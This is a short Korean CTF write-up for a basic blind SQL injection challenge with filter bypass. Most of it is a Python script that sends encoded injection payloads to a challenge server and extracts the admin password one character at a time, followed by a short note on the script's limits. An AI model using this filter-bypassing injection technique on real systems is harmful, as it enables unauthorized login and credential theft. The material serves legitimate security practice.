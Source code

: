 # sqli3 - blind sqli + bypass filtering
- 난이도 : basic
- site : 금융보안원
## 풀이
```py
import requests

def is_ok(response_text):
    return response_text.startswith('Hello admin')

key_full = [chr(i) for i in range(32, 127)]
flag = ''
# Make the request
for cnt in range(1,100):
    cnt_use = False
    for i in key_full:
        payload = f"Binary%23%0asubstr(userpw,length('{'_'*cnt}'),length('_'))='{i}'"
        url = (
            "http://2024fsec.arang.kr:9200/sqli3.php?"
            "userid=userid=a%27=%27a%27%23%0a"
            "and%23%0auserid=concat(%27ad%27,%27min%27)%23%0a"
            f"and%23%0a{payload}%23&userpw=guest"
        )
        response = requests.get(url)
        if is_ok(response.text[:11]):
            flag+=i
            print(flag)
            cnt_use = True
            break
    print(cnt,cnt_use)
```
근데 이렇게 풀면 몇몇 특수문자가 무시된다. 특히 + 가 URL의 고유한 값이라서 따로 처리가 되지 않는다.
특히 백엔드 로직에서 정수를 필터링 하기 때문에 플래그에 숫자가 포함되어 있는 경우 제대로 나오지 않는 문제가 있다.
